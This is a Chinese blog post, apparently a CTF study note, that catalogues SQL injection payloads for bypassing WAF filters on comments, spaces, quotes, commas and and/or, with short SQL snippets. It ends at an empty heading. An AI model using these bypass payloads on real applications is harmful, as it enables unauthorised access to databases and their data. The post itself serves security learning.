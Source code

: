 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入绕过与sqlmap使用方法总结               # 标题 
subtitle:   Challenges #副标题
date:       2019-09-02              # 时间
author:     Von                      # 作者
header-img: img/post-bg-android.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SQL

---
```


# 前言
最近零零散散地吧sqli-labs刷完了，学到了很多知识。但在里面对于WAF过滤的情况研究得不多，仅起到一个入门的作用，而在CTF中是基本上不会有这么简单的注入的。在这里我写一篇文章对常见的绕过过滤方法进行总结。

# 过滤了#,-- 
这种过滤了注释符的我们可以用类似'1'='1来绕过，比如当闭合方式为'的情况下，我们在语句后面添加 and '1'='1来闭合后面的'，也同时达到了注释的作用。  

# 过滤了空格
1. %20 %09 %0d %0b %0c %0d %a0 %0a，这些字符不会被php的\s匹配。  
2. 使用括号来避免使用空格.
``` sql
mysql> select(username)from(security.users);
+----------+
| username |
+----------+
| Dumb     |
| Angelina |
| Dummy    |
| secure   |
| stupid   |
| superman |
| batman   |
| admin    |
| admin1   |
| admin2   |
| admin3   |
| dhakkan  |
| admin4   |
| test     |
+----------+
14 rows in set (0.00 sec)
```

# 过滤了'
1. hex编码:这里对应的主要情况主要是在where字句中:
``` sql
select column_name  from information_schema.tables where table_name='user'
```
当过滤了'时我们就没办法闭合了，这时我们可以使用16进制编码来绕过。也就是:
``` sql
select column_name  from information_schema.tables where table_name=0x7573657273
```
2. char编码:
``` sql
select column_name  from information_schema.tables where table_name=char(117,115,101,114)
```

# 过滤了,
我们主要在三种情况下会用到,  
1. limit语句
``` sql
limit 0,1 => limit 1 offset 0;
```
2. 盲注时的mid
``` sql
mid(str,i,j) => mid((str)from(i)for(j))
```
3. union语句
``` sql
union select 1,2,3 => union select * from (select 1)a join (select 2)b join (select 3)c;
```

# 过滤了and,or
可以用逻辑运算符&&,||来绕过，如果是被替换为''的话还可以使用双写绕过如:aandnd,oorr。
# 过滤了&,|,*,/,=等逻辑处理字符
## =
```
select * from users where id in(2);
```
## 
